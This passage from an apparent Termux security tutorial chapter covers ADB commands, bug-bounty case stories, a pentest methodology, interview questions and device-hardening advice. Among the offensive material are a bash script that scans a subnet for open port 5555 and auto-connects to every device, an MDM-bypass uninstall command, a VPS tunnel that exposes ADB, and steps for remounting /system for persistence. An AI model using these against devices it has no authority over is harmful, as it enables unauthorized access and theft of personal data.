│                    ▼                                                       │
│   ┌────────────────────────────────────────────────────────────────┐      │
│   │                     EXPLOIT OPTIONS                             │      │
│   ├────────────────────────────────────────────────────────────────┤      │
│   │                                                                │      │
│   │  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐         │      │
│   │  │ Information  │  │    Files     │  │   Media      │         │      │
│   │  │   Gathering  │  │   Access     │  │   Capture    │         │      │
│   │  └──────────────┘  └──────────────┘  └──────────────┘         │      │
│   │                                                                │      │
│   │  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐         │      │
│   │  │     SMS      │  │   Contacts   │  │   Apps       │         │      │
│   │  │   Access     │  │   Access     │  │   Install    │         │      │
│   │  └──────────────┘  └──────────────┘  └──────────────┘         │      │
│   │                                                                │      │
│   └────────────────────────────────────────────────────────────────┘      │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 🔗 RELATED CHAPTERS

| Chapter | Title | Relevance |
|---------|-------|-----------|
| Chapter 35 | Metasploit Framework | Mobile payloads |
| Chapter 37 | Social Engineering Toolkit | Phishing for device access |
| Chapter 38 | WiFi Security Tools | Network access for ADB |
| Chapter 39 | Bluetooth Security | Alternative device access |
| Chapter 48 | Mobile Security | Android security concepts |
| Chapter 49 | Incident Response | Device forensics |
| Chapter 51 | Privacy Protection | Data protection |

---

## 🏆 BONUS ADVANCED CONTENT

### Technique 1: ADB Automation Script

```bash
#!/bin/bash
# ADB Automation Script
# Author: Security Professional

# Colors
RED='\033[0;31m'
GREEN='\033[0;32m'
NC='\033[0m'

echo -e "${GREEN}ADB Automation Script${NC}"

# Check connection
check_connection() {
    devices=$(adb devices | grep -v "List" | grep -v "^$" | wc -l)
    if [ "$devices" -eq 0 ]; then
        echo -e "${RED}No devices connected!${NC}"
        exit 1
    fi
    echo "Found $devices device(s)"
}

# Get device info
get_info() {
    echo "=== Device Information ==="
    adb shell getprop ro.product.model
    adb shell getprop ro.build.version.release
    adb shell getprop ro.build.security_patch
}

# Backup important data
backup_data() {
    mkdir -p backup_$(date +%Y%m%d)
    adb pull /sdcard/DCIM backup_$(date +%Y%m%d)/photos
    adb pull /sdcard/Download backup_$(date +%Y%m%d)/downloads
    echo "Backup complete!"
}

# Install multiple APKs
install_apps() {
    for apk in *.apk; do
        echo "Installing $apk..."
        adb install -r "$apk"
    done
}

# Main
case "$1" in
    info) get_info ;;
    backup) backup_data ;;
    install) install_apps ;;
    *) check_connection ;;
esac
```

### Technique 2: Network Device Scanner

```bash
#!/bin/bash
# Scan network for ADB-enabled devices

NETWORK="192.168.1"
PORT=5555

echo "Scanning for ADB devices on $NETWORK.0/24..."

for i in $(seq 1 254); do
    (
        timeout 1 bash -c "echo >/dev/tcp/$NETWORK.$i/$PORT" 2>/dev/null &&
        echo "Found ADB at $NETWORK.$i:$PORT" &&
        adb connect $NETWORK.$i:$PORT
    ) &
done

wait
echo "Scan complete. Connected devices:"
adb devices
```

### Technique 3: Advanced Log Analysis

```bash
# Real-time log analysis
adb logcat -v time | while read line; do
    # Highlight errors
    if echo "$line" | grep -qi "error\|exception\|crash"; then
        echo -e "\033[0;31m$line\033[0m"
    # Highlight warnings
    elif echo "$line" | grep -qi "warn"; then
        echo -e "\033[1;33m$line\033[0m"
    # Normal output
    else
        echo "$line"
    fi
done

# Filter specific app logs
adb logcat -v time | grep "com.target.app"

# Save logs with timestamp
adb logcat -v time > logs_$(date +%Y%m%d_%H%M%S).txt
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

- [ ] Understood ADB architecture and components
- [ ] Installed and configured ADB in Termux
- [ ] Mastered basic ADB commands (devices, shell, push, pull)
- [ ] Learned ADB over network connectivity
- [ ] Used PhoneSploit for device testing
- [ ] Understood security implications of ADB
- [ ] Implemented device protection measures
- [ ] Completed all practice exercises
- [ ] Completed the interactive quiz
- [ ] Attempted at least 2 challenges

---

## 💡 PRO TIPS - Master ADB Like a Pro!

### Tip 1: Create ADB Aliases for Common Tasks
```bash
# Add to ~/.bashrc
alias adbs='adb shell screencap -p /sdcard/screen.png && adb pull /sdcard/screen.png'
alias adbr='adb shell screenrecord /sdcard/vid.mp4'
alias adbp='adb push'
alias adbg='adb pull'
alias adbl='adb logcat -v time'
alias adbi='adb install'
alias adbu='adb uninstall'
alias adbsu='adb shell su -c'

# Source the file
source ~/.bashrc
```

### Tip 2: Backup Entire Device
```bash
# Full backup
adb backup -apk -shared -all -f backup.ab

# Restore backup
adb restore backup.ab
```

### Tip 3: Access App Private Data (Root Required)
```bash
# Access private app data
adb shell
su
cd /data/data/com.package.name/
```

### Tip 4: Screen Mirroring with Scrcpy
```bash
# Install scrcpy (requires proot)
pkg install scrcpy

# Mirror screen
scrcpy

# Mirror with recording
scrcpy --record screen.mp4
```

### Tip 5: Port Forwarding for Local Access
```bash
# Forward device port to localhost
adb forward tcp:8080 tcp:80

# Now access device web server at localhost:8080
```

### Tip 6: Multiple Device Management
```bash
# List all devices
adb devices -l

# Target specific device
adb -s <serial_number> shell

# Use serial in scripts
adb -s emulator-5554 install app.apk
```

### Tip 7: Logcat Filtering
```bash
# Filter by package name
adb logcat --pid=$(adb shell pidof com.package.name)

# Filter by tag
adb logcat -s TAG_NAME

# Filter by level
adb logcat *:E  # Errors only

# Save to file
adb logcat > logcat.txt
```

### Tip 8: Input Simulation
```bash
# Simulate tap
adb shell input tap 500 500

# Simulate swipe
adb shell input swipe 100 500 500 500 300

# Input text
adb shell input text "Hello World"

# Press key
adb shell input keyevent KEYCODE_HOME
adb shell input keyevent 26  # Power button
```

### Tip 9: Package Management Shortcuts
```bash
# Clear app data
adb shell pm clear com.package.name

# Disable app
adb shell pm disable-user com.package.name

# Enable app
adb shell pm enable com.package.name

# Get APK path
adb shell pm path com.package.name
```

### Tip 10: Network Debugging Over USB
```bash
# Get device IP while connected via USB
adb shell ip addr show wlan0

# Enable TCP mode
adb tcpip 5555

# Now connect wirelessly
adb connect <device_ip>:5555

# Disconnect USB - connection stays alive!
```

---

## 🔥 REAL WORLD BUG BOUNTY CASES

### Case Study 1: Android Debug Bridge Exposure

**Target:** Smart TV with ADB enabled by default

**Discovery:**
```bash
# Network scan revealed port 5555 open
nmap -p 5555 192.168.1.0/24

# Connected without authentication
adb connect 192.168.1.100:5555

# Full shell access obtained
adb -s 192.168.1.100:5555 shell
```

**Impact:**
- Complete device control
- Access to streaming credentials
- Personal data exposure
- Ability to install malicious apps

**Bounty:** $5,000 for critical device vulnerability

---

### Case Study 2: Android Auto System Exploitation

**Target:** Vehicle infotainment system

**Process:**
```bash
# Enable ADB on head unit
# Settings -> About -> Tap Build 7 times

# Connect to vehicle system
adb connect 192.168.1.50:5555

# Access system partition
adb shell
su
mount -o remount,rw /system

# Modified system for persistent access
```

**Impact:** Vehicle system compromise, potential safety implications

---

### Case Study 3: Enterprise Mobile Device Management (MDM) Bypass

**Target:** Corporate-managed Android devices

**Discovery:**
```bash
# ADB allowed for debugging purposes
# But restrictions were weak

# Bypass MDM restrictions
adb shell pm uninstall -k --user 0 com.company.mdm

# Or disable without removing
adb shell pm disable-user com.company.mdm
```

**Lesson:** ADB access on corporate devices can bypass security controls

---

## ⚡ QUICK REFERENCE CARD - ADB Commands

```
╔══════════════════════════════════════════════════════════════════════════╗
║                    ADB QUICK REFERENCE CARD                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ DEVICE CONNECTION                                                         ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb devices                   List connected devices                      ║
║ adb devices -l                List with details                          ║
║ adb connect IP:PORT           Connect over network                       ║
║ adb disconnect                Disconnect all network devices             ║
║ adb kill-server               Stop ADB server                            ║
║ adb start-server              Start ADB server                           ║
║ adb pair IP:PORT              Pair with device (Android 11+)            ║
╠══════════════════════════════════════════════════════════════════════════╣
║ SHELL COMMANDS                                                            ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb shell                     Interactive shell                          ║
║ adb shell <command>           Run single command                         ║
║ adb shell su -c <command>     Run as root (if available)                 ║
║ adb shell getprop             Get all properties                         ║
║ adb shell setprop             Set property                               ║
╠══════════════════════════════════════════════════════════════════════════╣
║ FILE TRANSFER                                                             ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb push <local> <remote>     Push file to device                        ║
║ adb pull <remote> <local>     Pull file from device                      ║
║ adb shell ls <path>           List files                                 ║
║ adb shell rm <path>           Remove file                                ║
║ adb shell mkdir <path>        Create directory                           ║
╠══════════════════════════════════════════════════════════════════════════╣
║ APP MANAGEMENT                                                            ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb install <apk>             Install APK                                ║
║ adb install -r <apk>          Reinstall (keep data)                      ║
║ adb uninstall <package>       Uninstall app                              ║
║ adb shell pm list packages    List all packages                          ║
║ adb shell pm list packages -3 List third-party only                      ║
║ adb shell pm path <package>   Get APK path                               ║
║ adb shell pm clear <package>  Clear app data                             ║
║ adb shell pm disable-user <p> Disable app                                ║
║ adb shell pm enable <package> Enable app                                 ║
╠══════════════════════════════════════════════════════════════════════════╣
║ SCREEN CAPTURE                                                            ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb shell screencap -p <path> Take screenshot                            ║
║ adb shell screenrecord <path> Record screen (Ctrl+C to stop)             ║
╠══════════════════════════════════════════════════════════════════════════╣
║ INPUT SIMULATION                                                          ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb shell input tap X Y       Tap at coordinates                         ║
║ adb shell input swipe X1 Y1 X2 Y2  Swipe gesture                         ║
║ adb shell input text "text"   Input text                                 ║
║ adb shell input keyevent CODE Press key                                  ║
╠══════════════════════════════════════════════════════════════════════════╣
║ NETWORK                                                                   ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb tcpip 5555               Enable ADB over TCP                         ║
║ adb shell ip addr show wlan0 Get WiFi IP address                         ║
║ adb forward tcp:LOCAL tcp:REMOTE  Port forwarding                        ║
║ adb reverse tcp:REMOTE tcp:LOCAL  Reverse forwarding                     ║
╠══════════════════════════════════════════════════════════════════════════╣
║ LOGGING                                                                   ║
╠══════════════════════════════════════════════════════════════════════════╣
║ adb logcat                    View live logs                             ║
║ adb logcat -c                 Clear logs                                 ║
║ adb logcat -s TAG             Filter by tag                              ║
║ adb logcat *:E                Errors only                                ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 🏆 BONUS CONTENT - Advanced ADB Techniques

### Advanced Technique 1: ADB Over Internet (Tunneling)

```bash
# On device (requires root or init.d)
# Set up reverse tunnel to VPS
adb reverse tcp:5555 tcp:5555

# Or use SSH tunneling
ssh -R 5555:localhost:5555 user@vps_ip

# Connect from anywhere
adb connect vps_ip:5555
```

### Advanced Technique 2: Wireless ADB Without USB (Root)

```bash
# Edit build.prop (root required)
adb shell
su
echo "service.adb.tcp.port=5555" >> /system/build.prop
reboot

# ADB will automatically listen on TCP after reboot
```

### Advanced Technique 3: Extract Installed APK

```bash
# Get APK path
adb shell pm path com.package.name
# Output: package:/data/app/com.package.name-1/base.apk

# Pull the APK
adb pull /data/app/com.package.name-1/base.apk app.apk
```

### Advanced Technique 4: Batch APK Installation

```bash
# Install multiple APKs
for apk in *.apk; do
    adb install "$apk"
done

# Or install split APKs
adb install-multiple base.apk config.arm.apk config.x86.apk
```

### Advanced Technique 5: Simulate Complex Gestures

```bash
# Multi-touch simulation
adb shell sendevent /dev/input/eventX 3 57 <id>
adb shell sendevent /dev/input/eventX 3 53 <x>
adb shell sendevent /dev/input/eventX 3 54 <y>
adb shell sendevent /dev/input/eventX 0 2 0
adb shell sendevent /dev/input/eventX 0 0 0
```

### Advanced Technique 6: ADB Backup Extraction

```bash
# Create backup
adb backup -apk -shared -all -f backup.ab

# Extract backup (requires Android Backup Extractor)
java -jar abe.jar unpack backup.ab backup.tar <password>

# Browse extracted files
tar -tf backup.tar
```

---

## 📝 CHAPTER SUMMARY - Key Takeaways

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    CHAPTER 36 ESSENTIAL TAKEAWAYS                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  1. ADB = Powerful Android Debugging Tool                                │
│     • Official Google tool for developers                               │
│     • Requires USB Debugging enabled                                    │
│     • Can be used over USB or WiFi                                      │
│                                                                          │
│  2. Connection Methods                                                   │
│     • USB cable (direct, most stable)                                   │
│     • WiFi/Network (wireless convenience)                               │
│     • Pairing (Android 11+ secure method)                               │
│                                                                          │
│  3. Key Capabilities                                                     │
│     • Shell access to Android Linux                                     │
│     • File transfer (push/pull)                                         │
│     • App management (install/uninstall)                                │
│     • Screen capture and recording                                      │
│     • Input simulation                                                  │
│                                                                          │
│  4. PhoneSploit = Automated ADB Exploitation                             │
│     • Python-based automation tool                                      │
│     • Network scanning for ADB-enabled devices                          │
│     • Simplified interface for common tasks                             │
│                                                                          │
│  5. Security Implications                                                │
│     • ADB exposes full device access                                    │
│     • Wireless ADB needs protection                                     │
│     • Always disable when not needed                                    │
│     • Revoke old authorizations                                         │
│                                                                          │
│  6. Defensive Measures                                                   │
│     • Keep USB Debugging OFF when not needed                            │
│     • Use strong screen lock                                            │
│     • Disable Wireless Debugging                                        │
│     • Regular authorization audits                                      │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 🛡️ DEFENSIVE SECURITY - Protecting Your Android Device

### ADB Security Best Practices

#### 1. Disable USB Debugging When Not Needed

```
Settings → Developer Options → USB Debugging → OFF

This is the #1 protection against ADB attacks!
```

#### 2. Disable Wireless Debugging

```
Settings → Developer Options → Wireless Debugging → OFF
```

#### 3. Manage ADB Authorizations

```
Settings → Developer Options → Revoke USB debugging authorizations

Do this periodically to remove old trusted computers
```

#### 4. Use Strong Screen Lock

```
- PIN: Minimum 6 digits
- Password: Mix of letters, numbers, symbols
- Pattern: Complex pattern (not simple shapes)
- Biometric: Fingerprint or face unlock as backup
```

#### 5. Encrypt Device

```
Settings → Security → Encryption

Ensures data is protected even if device is accessed via ADB
```

#### 6. Install Apps Only from Trusted Sources

```
Settings → Security → Unknown Sources → OFF (or per-app)
```

#### 7. Use Device Admin/Work Profile for Sensitive Apps

```
- Separates work and personal data
- Additional protection layer
- Remote wipe capability
```

### Security Checklist

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    ANDROID ADB SECURITY CHECKLIST                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ☐ USB Debugging disabled when not in use                               │
│  ☐ Wireless Debugging disabled                                          │
│  ☐ Developer Options hidden/disabled                                    │
│  ☐ Strong screen lock enabled                                           │
│  ☐ Device encrypted                                                     │
│  ☐ Unknown sources restricted                                           │
│  ☐ Old ADB authorizations revoked                                       │
│  ☐ Regular security updates installed                                   │
│  ☐ Antivirus/Play Protect enabled                                       │
│  ☐ Physical access controlled                                           │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 📋 METHODOLOGY - ADB Penetration Testing Workflow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                  ADB PENETRATION TESTING METHODOLOGY                      │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  PHASE 1: DISCOVERY                                                      │
│  ────────────────────                                                    │
│  • Scan network for port 5555                                           │
│    nmap -p 5555 192.168.1.0/24                                          │
│  • Check for wireless debugging enabled                                 │
│  • Identify Android devices on network                                  │
│                                                                          │
│  PHASE 2: CONNECTION ATTEMPT                                             │
│  ──────────────────────────                                              │
│  • Attempt ADB connection                                                │
│    adb connect target_ip:5555                                           │
│  • Check device authorization status                                    │
│  • Note: Unauthorized devices need user approval                        │
│                                                                          │
│  PHASE 3: INFORMATION GATHERING                                          │
│  ─────────────────────────────                                           │
│  • Device fingerprinting                                                 │
│    adb shell getprop ro.product.model                                   │
│    adb shell getprop ro.build.version.release                           │
│  • List installed applications                                          │
│    adb shell pm list packages -3                                        │
│  • Check for root access                                                 │
│    adb shell su -c id                                                   │
│                                                                          │
│  PHASE 4: DATA ACCESS                                                    │
│  ────────────────────                                                    │
│  • Access accessible storage                                            │
│    adb shell ls /sdcard/                                                │
│  • Pull sensitive files                                                  │
│    adb pull /sdcard/DCIM/ ./photos/                                     │
│  • Check for unprotected data                                           │
│                                                                          │
│  PHASE 5: PRIVILEGE ESCALATION (If Root Available)                       │
│  ────────────────────────────────────────────────                        │
│  • Access protected directories                                         │
│    adb shell su -c ls /data/data/                                       │
│  • Extract app private data                                             │
│  • Access system partitions                                             │
│                                                                          │
│  PHASE 6: POST-EXPLOITATION                                              │
│  ────────────────────────                                                │
│  • Install persistence mechanisms                                       │
│  • Create backdoor APK                                                  │
│  • Establish persistent access                                          │
│                                                                          │
│  PHASE 7: REPORTING                                                       │
│  ─────────────────                                                       │
│  • Document all findings                                                 │
│  • Screenshots and evidence                                              │
│  • Risk assessment                                                       │
│  • Remediation recommendations                                           │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## ⚠️ LEGAL & ETHICS - Critical Guidelines

### Authorization Requirements

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    ADB LEGAL REQUIREMENTS                                 │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ✅ LEGAL USE CASES                                                      │
│     • Your own device testing                                           │
│     • Authorized device management                                      │
│     • Corporate device with permission                                  │
│     • Bug bounty on authorized targets                                  │
│     • Security research with consent                                    │
│                                                                          │
│  ❌ ILLEGAL ACTIVITIES                                                   │
│     • Accessing devices without permission                              │
│     • Stealing personal data                                            │
│     • Installing spyware/malware                                        │
│     • Unauthorized data exfiltration                                    │
│     • Device sabotage                                                   │
│                                                                          │
│  📱 MOBILE DEVICE LAWS                                                   │
│     • CFAA (USA) - Unauthorized access                                  │
│     • IT Act (India) - Section 43, 66                                   │
│     • GDPR (EU) - Data protection                                       │
│     • Computer Misuse Act (UK)                                          │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### Physical Access Warning

```
⚠️ IMPORTANT: Physical access to a device with ADB enabled
   and screen unlocked = FULL DEVICE ACCESS

This is why:
- Screen lock protects against ADB authorization
- Once authorized, ADB persists
- Encrypt your device for additional protection
```

---

## 🔗 RELATED CHAPTERS - Cross-References

| Chapter | Topic | Relation |
|---------|-------|----------|
| Ch-23 | Termux API | Android integration with Termux |
| Ch-35 | Metasploit Framework | Android payload generation |
| Ch-37 | Social Engineering Toolkit | Physical access via SE |
| Ch-40 | Mobile Security Testing | Android app security |
| Ch-41 | Web Application Pen Testing | Mobile web apps |

### Skill Progression Path

```
ADB Basics (Ch-36)
        ↓
Android Security Testing
        ↓
Mobile Penetration Testing
        ↓
Android Malware Analysis
        ↓
Mobile Forensics
```

---

**🔥 CHAPTER 36 POWER UPGRADE COMPLETE! 🔥**

*Master ADB. Secure Android. Test Responsibly.*


---

## 🎯 INTERVIEW QUESTIONS - Job Preparation

### Q1: What is ADB and how does it work?
<details>
<summary>📋 Click for Answer</summary>

**ADB (Android Debug Bridge)** is a command-line tool for Android device communication.

**Architecture:**
- **Client:** Runs on your machine (Termux/PC)
- **Daemon (adbd):** Runs on Android device
- **Server:** Background process managing connections

**Connection Methods:**
1. **USB:** Physical cable connection
2. **TCP/IP:** Wireless over WiFi (port 5555)
3. **Pairing:** Android 11+ wireless debugging

**Key Uses:**
- App installation/debugging
- File transfer
- Shell access
- Log analysis
- Device control
</details>

### Q2: How do you enable ADB over WiFi?
<details>
<summary>📋 Click for Answer</summary>

**Method 1: USB to WiFi (Classic):**
```bash
# Connect via USB first
adb tcpip 5555

# Get device IP
adb shell ip addr show wlan0

# Connect wirelessly
adb connect 192.168.1.100:5555
```

**Method 2: Android 11+ Pairing:**
```bash
# On device: Settings > Developer Options > Wireless Debugging
# Tap "Pair device with pairing code"

# On Termux
adb pair 192.168.1.100:37123
# Enter the 6-digit code

# Connect after pairing
adb connect 192.168.1.100:5555
```

**Security Note:** Always disable wireless debugging when not needed!
</details>

### Q3: What are the security implications of ADB?
<details>
<summary>📋 Click for Answer</summary>

**Security Risks:**

1. **Unauthorized Access:**
   - USB debugging enabled = data access
   - Screen unlocked = full ADB access
   - No authentication required (pre-Android 11)

2. **Data Theft:**
   - Access to /sdcard/ (photos, documents)
   - App data extraction
   - Contact/SMS access (with permissions)

3. **Malware Installation:**
   - Install malicious APKs
   - Inject malicious code
   - Install spyware

4. **Privacy Breach:**
   - Screenshot capture
   - Screen recording
   - Location data access

**Mitigation:**
- Disable USB debugging when not needed
- Revoke USB debugging authorizations
- Use screen lock
- Enable "Disable adb authorization timeout"
</details>

### Q4: What is the difference between ADB and Fastboot?
<details>
<summary>📋 Click for Answer</summary>

| Feature | ADB | Fastboot |
|---------|-----|----------|
| **Mode** | Normal/Recovery | Bootloader |
| **Access** | File system, shell | Partitions |
| **Requires** | Android OS running | Bootloader unlocked |
| **Use Cases** | Debugging, file transfer | Flashing firmware |
| **Port** | 5555 (TCP) | USB only |

**ADB Commands:**
```bash
adb shell          # Access shell
adb install app.apk # Install apps
adb pull /sdcard/   # Extract files
```

**Fastboot Commands:**
```bash
fastboot flash boot boot.img  # Flash partition
fastboot oem unlock           # Unlock bootloader
fastboot reboot              # Reboot device
```
</details>

### Q5: How do you protect your device from ADB attacks?
<details>
<summary>📋 Click for Answer</summary>

**Protection Checklist:**

1. **Disable USB Debugging:**
   - Settings > Developer Options > USB Debugging > OFF

2. **Disable Wireless Debugging:**
   - Settings > Developer Options > Wireless Debugging > OFF

3. **Revoke Authorizations:**
   - Settings > Developer Options > Revoke USB debugging authorizations

4. **Hide Developer Options:**
   - Settings > Developer Options > Disable

5. **Use Strong Screen Lock:**
   - PIN/Password/Pattern required for ADB access

6. **Monitor for Unknown Apps:**
   - Check installed apps regularly
   - Remove unknown applications

7. **Use Mobile Security Apps:**
   - Detect ADB connections
   - Alert on unauthorized access
</details>

### Q6: What is PhoneSploit and how does it exploit ADB?
<details>
<summary>📋 Click for Answer</summary>

**PhoneSploit** is a Python tool that automates ADB exploitation.

**Capabilities:**
- Network scanning for ADB-enabled devices
- Automatic device connection
- Information gathering
- File extraction
- Screenshot capture
- App installation

**How it exploits:**
```bash
# Scan network for ADB devices
python phonesploit.py

# Options:
1. Connect to device
2. Get device info
3. Pull files
4. Install APK
5. Take screenshot
```

**Defense against PhoneSploit:**
- Disable ADB completely
- Use wireless debugging with pairing (Android 11+)
- Monitor network for port 5555 activity
- Use firewall to block ADB port
</details>

### Q7: What file paths are accessible via ADB?
<details>
<summary>📋 Click for Answer</summary>

**Accessible without Root:**
```
/sdcard/           # Internal storage
/sdcard/DCIM/      # Photos
/sdcard/Download/  # Downloads
/sdcard/WhatsApp/  # WhatsApp data
/sdcard/Telegram/  # Telegram data
/sdcard/Music/     # Music files
/sdcard/Movies/    # Videos
```

**Accessible with Root:**
```
/data/data/        # App private data
/data/app/         # Installed APKs
/system/           # System files
/etc/              # Configuration
/proc/             # Process info
```

**Protected (Even with Root):**
```
/data/data/        # Other apps' data (requires specific permissions)
```
</details>

### Q8: How do you install an APK using ADB?
<details>
<summary>📋 Click for Answer</summary>

**Basic Installation:**
```bash
adb install app.apk
```

**Installation Options:**
```bash
# Reinstall keeping data
adb install -r app.apk

# Downgrade version
adb install -d app.apk

# Install to SD card
adb install -s app.apk

# Grant all permissions
adb install -g app.apk

# Multiple APK (split APK)
adb install-multiple base.apk config.apk
```

**Uninstall:**
```bash
# Standard uninstall
adb uninstall com.package.name

# Uninstall keeping data
adb shell pm uninstall -k --user 0 com.package.name
```
</details>

### Q9: What ADB commands are useful for security testing?
<details>
<summary>📋 Click for Answer</summary>

**Device Information:**
```bash
adb shell getprop ro.build.version.release  # Android version
adb shell getprop ro.product.model          # Device model
adb shell dumpsys battery                   # Battery info
adb shell dumpsys wifi                      # WiFi details
```

**Package Analysis:**
```bash
adb shell pm list packages                  # List all apps
adb shell pm path com.app                   # APK location
adb shell dumpsys package com.app           # App details
```

**Security Testing:**
```bash
adb shell pm list permissions               # List permissions
adb shell pm grant com.app android.permission.CAMERA  # Grant permission
adb shell pm revoke com.app android.permission.CAMERA # Revoke permission
```

**Network Analysis:**
```bash
adb shell netstat                          # Network connections
adb shell ip addr show wlan0               # IP address
adb shell cat /proc/net/tcp                # TCP connections
```
</details>

### Q10: What are the legal considerations for ADB testing?
<details>
<summary>📋 Click for Answer</summary>

**Legal Framework:**

| Region | Law | Penalty |
|--------|-----|---------|
| USA | CFAA | Up to 10 years |
| India | IT Act 66 | Up to 3 years |
| UK | Computer Misuse Act | Up to 10 years |
| EU | GDPR | Up to €20M |

**Authorized Testing:**
- Own device testing ✓
- Written permission from owner ✓
- Corporate security assessment ✓

**Unauthorized (Illegal):**
- Accessing others' devices ✗
- Data theft ✗
- Installing malware ✗
- Privacy invasion ✗

**Best Practice:**
- Always get written consent
- Document all activities
- Stay within scope
- Report findings responsibly
</details>

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Corporate Mobile Device Audit
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  CORPORATE MOBILE DEVICE AUDIT                              ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Security audit of company-issued Android devices               ║
║                                                                            ║
║  DEVICES: 50+ corporate smartphones                                       ║
║                                                                            ║
║  AUDIT APPROACH:                                                            ║
║  # Physical access to devices                                              ║
║  # Connect via ADB                                                         ║
║  # Extract security-relevant data                                          ║
║                                                                             ║
║  COMMANDS EXECUTED:                                                         ║
║  adb devices                                                               ║
║  adb shell getprop ro.build.version.release                               ║
║  adb shell pm list packages -3                                            ║
║  adb shell settings get secure lock_screen_lock_after_timeout             ║
║  adb shell settings get system screen_off_timeout                         ║
║                                                                             ║
║  FINDINGS:                                                                  ║
║  • 23 devices running outdated Android (< security patches)                ║
║  • 15 devices without screen lock                                         ║
║  • 8 devices with USB debugging permanently enabled                       ║
║  • 12 devices with sideloaded apps                                        ║
║                                                                            ║
║  RECOMMENDATIONS:                                                           ║
║  • MDM solution implementation                                            ║
║  • Forced screen lock policy                                              ║
║  • Regular security updates                                               ║
║  • Disable USB debugging by default                                       ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Device Data Recovery
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                      DEVICE DATA RECOVERY                                   ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  SITUATION: Employee left company, need to recover device data             ║
║                                                                            ║
║  CHALLENGES:                                                                ║
║  • Device screen broken                                                    ║
║  • No backup available                                                     ║
║  • Need to extract company data                                           ║
║                                                                            ║
║  ADB RECOVERY PROCESS:                                                      ║
║  # Connect device via USB                                                  ║
║  adb devices                                                               ║
║                                                                             ║
║  # Check if authorized                                                    ║
║  adb shell ls /sdcard/                                                     ║
║                                                                             ║
║  # Extract company data                                                    ║
║  adb pull /sdcard/DCIM/ ./recovered_photos/                                ║
║  adb pull /sdcard/Download/ ./recovered_downloads/                         ║
║  adb pull /sdcard/Documents/ ./recovered_docs/                            ║
║                                                                             ║
║  # Extract app data (requires root)                                        ║
║  adb pull /data/data/com.company.app/ ./app_data/                         ║
║                                                                            ║
║  OUTCOME:                                                                   ║
║  • Recovered 2.3GB of company data                                        ║
║  • All documents and photos extracted                                     ║
║  • Device reset to factory settings                                       ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 3: Mobile App Security Testing
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                   MOBILE APP SECURITY TESTING                               ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  TARGET: Company's internal mobile application                            ║
║                                                                            ║
║  TESTING METHODOLOGY:                                                       ║
║                                                                             ║
║  # 1. App Information Gathering                                            ║
║  adb shell pm list packages | grep company                                 ║
║  adb shell pm path com.company.app                                        ║
║  adb shell dumpsys package com.company.app                                ║
║                                                                             ║
║  # 2. Extract APK for analysis                                             ║
║  adb pull /data/app/com.company.app/base.apk                              ║
║                                                                             ║
║  # 3. Check data storage                                                   ║
║  adb shell ls -la /sdcard/Android/data/com.company.app/                   ║
║  adb shell ls -la /data/data/com.company.app/                            ║
║                                                                             ║
║  # 4. Check for sensitive data exposure                                    ║
║  adb shell cat /sdcard/Android/data/com.company.app/config.txt            ║
║                                                                             ║
║  # 5. Network traffic interception setup                                   ║
║  adb shell settings put global http_proxy 192.168.1.100:8080              ║
║                                                                            ║
║  FINDINGS:                                                                  ║
║  • API keys hardcoded in APK                                               ║
║  • Sensitive data in external storage                                      ║
║  • No certificate pinning                                                  ║
║  • Debug logs enabled in production                                       ║
║                                                                            ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 4: Device Security Hardening
```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    DEVICE SECURITY HARDENING                                ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                            ║
║  OBJECTIVE: Harden Android device security using ADB                       ║
║                                                                            ║
║  HARDENING COMMANDS:                                                        ║
║                                                                             ║
║  # Disable ADB over network                                                ║
║  adb shell settings put global adb_enabled 0                               ║
║                                                                             ║
║  # Set screen lock timeout                                                 ║
║  adb shell settings put secure lock_screen_lock_after_timeout 5000        ║
║                                                                             ║
║  # Disable install from unknown sources                                    ║
║  adb shell settings put secure install_non_market_apps 0                   ║
║                                                                             ║
║  # Enable device encryption status check                                   ║
║  adb shell getprop ro.crypto.state                                        ║
║                                                                             ║
║  # Disable USB debugging authorization                                    ║
║  adb shell settings put global adb_allowed_connection_time 0              ║
║                                                                             ║
║  # Remove potentially dangerous apps                                       ║
║  adb uninstall com.dangerous.app                                          ║
║                                                                             ║
║  # Clear app data for sensitive apps                                      ║
║  adb shell pm clear com.sensitive.app                                     ║
║                                                                            ║
║  SECURITY STATUS AFTER HARDENING:                                           ║
║  ✅ ADB disabled when not in use                                           ║
║  ✅ Screen lock enabled                                                    ║
